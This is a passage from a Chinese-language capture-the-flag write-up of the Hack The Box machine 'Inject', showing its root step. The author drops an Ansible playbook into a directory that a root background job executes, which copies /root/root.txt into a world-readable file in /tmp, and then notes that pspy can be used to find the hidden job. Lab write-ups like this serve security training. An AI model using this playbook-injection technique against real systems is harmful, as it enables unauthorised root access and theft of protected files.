 ```bash
localhost                  : ok=1    changed=0    unreachable=0    failed=1    skipped=0    rescued=0    ignored=0
```

对哦……用 `become: true` 要root的密码……
迷茫……  

但是看了眼/tmp/下面有我playbook执行的结果？？

```bash
phil@inject:/opt/automation/tasks$ cat /tmp/test
uid=0(root) gid=0(root) groups=0(root)
```


## flag: root

emmmm，先不管了，拿flag试试。这次将playbook换成直接拿flag：
```yml
- hosts: localhost
  tasks:
    - name: Run a command as root
      shell: "cat /root/root.txt > /tmp/test; chmod 777 /tmp/test"
```

运行一下，报错。看了眼 `/tmp/test` 文件也没变化？  
难道有后台运行？好像之前看cron也没啥自动任务。  

`watch cat /tmp/test` 监控看看。  
突然就有flag了！看来果然有后台在运行啊……
> df13……7ceb


---

## 总结·后记

2023/05/26

root算是阴差阳错了……    
后来看[WP](https://hyperbeast.es/inject-htb/)提到，可以上传[pspy64](https://github.com/DominicBreuker/pspy)扫描会找到那个自动运行的进程？但是ps为啥看不了？不是很懂……有空试试这个。